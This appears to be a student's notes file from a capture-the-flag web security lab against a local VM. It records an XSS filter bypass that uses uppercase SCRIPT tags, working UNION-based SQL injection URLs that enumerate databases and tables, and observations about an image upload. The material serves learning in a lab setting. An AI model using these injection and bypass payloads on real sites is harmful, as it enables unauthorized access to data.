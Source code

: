 # VirtualBox settings
1. System->Processor-> enable PAE
2. Host-only Adapter, name vboxnet0

# Notes to self
## Footer
* The copyright link points to ?page=e43ad1fdc54babe674da7c7b8f0127bde61de3fbe01def7d00f151c2fcca6d1c (the albatross page), which feels odd (64 characters, too)

## Feedback
* The **name** field allows HTML injection~~, but not XSS. Simply adding a `<script>` block does not return a flag (the tags are filtered out).~~
* Actually XSS **is** possible, it's just `<script>` (lowercase) tags that are filtered. `<SCRIPT>` works fine.

## Database
* There are 5 databases (+ information_schema):
  * `Member_Brute_Force, Member_Sql_Injection, Member_guestbook, Member_images, Member_survey`
  * http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+catalog_name%2C+schema_name+FROM+information_schema.schemata&Submit=Submit#
* The databases contain the following tables:
  * Member_Brute_Force: db_default
  * Member_Sql_Injection: users
  * Member_guestbook: guestbook
  * Member_images: list_images
  * Member_survey: vote_dbs
  * http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_schema%2C+table_name+FROM+information_schema.tables&Submit=Submit#
* The database uses InnoDB

## Image upload notes (1 flag got)
* Hidden input field `MAX_FILE_SIZE` sounds like a constant that should be on the server. The default is 100 kB, editing it doesn't appear to allow uploading larger files.
* MIME-type must be jpg
* Images are not added to database even if successfully uploaded (at least not `list_images`)
* Trying to upload multiple images appears to discard all but one of them

# Flag count
7/14
